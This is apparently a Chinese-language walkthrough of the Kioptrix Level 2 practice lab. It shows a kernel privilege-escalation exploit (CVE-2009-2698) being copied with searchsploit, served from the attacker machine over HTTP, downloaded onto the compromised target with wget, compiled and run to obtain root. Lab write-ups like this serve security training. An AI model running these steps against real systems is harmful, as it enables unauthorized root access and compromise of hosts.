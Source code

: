 第二个看起来可以使用，将它保存到当前路径

```
┌──(root㉿kali)-[~/Desktop/test]
└─# searchsploit -m linux_x86/local/9542.c
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
    Codes: CVE-2009-2698
 Verified: True
File Type: C source, ASCII text
Copied to: /root/Desktop/test/9542.c
```

这是一个本地漏洞，所以我们需要在远程目标上运行它。我将使用 python启动一个快速 HTTP 服务器来传输这个利用脚本。

```
┌──(root㉿kali)-[~/Desktop/test]
└─# python3 -m http.server 3333
Serving HTTP on 0.0.0.0 port 3333 (http://0.0.0.0:3333/) ...
```

```
apache@kioptrix.level2:/var/www/html$ cd /tmp                                                                   
apache@kioptrix.level2:/tmp$ wget http://192.168.43.24/9542.c                                                   
--02:46:49--  http://192.168.43.24/9542.c                                                                       
           => `9542.c'                                                                                          
Connecting to 192.168.43.24:80... failed: Connection refused.                                                   
apache@kioptrix.level2:/tmp$ ls 
apache@kioptrix.level2:/tmp$ cd /tmp      
apache@kioptrix.level2:/tmp$ wget http://192.168.43.24:3333/9542.c  
--02:49:23--  http://192.168.43.24:3333/9542.c
           => `9542.c'
Connecting to 192.168.43.24:3333... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,535 (2.5K) [text/x-csrc]

    0K ..                                                    100%   39.63 MB/s

02:49:23 (39.63 MB/s) - `9542.c' saved [2535/2535]


apache@kioptrix.level2:/tmp$ gcc -o exploit 9542.c
9542.c:109:28: warning: no newline at end of file
apache@kioptrix.level2:/tmp$ ./exploit
sh: no job control in this shell
root@kioptrix.level2:/tmp$ id
uid=0(root) gid=0(root) groups=48(apache)
```
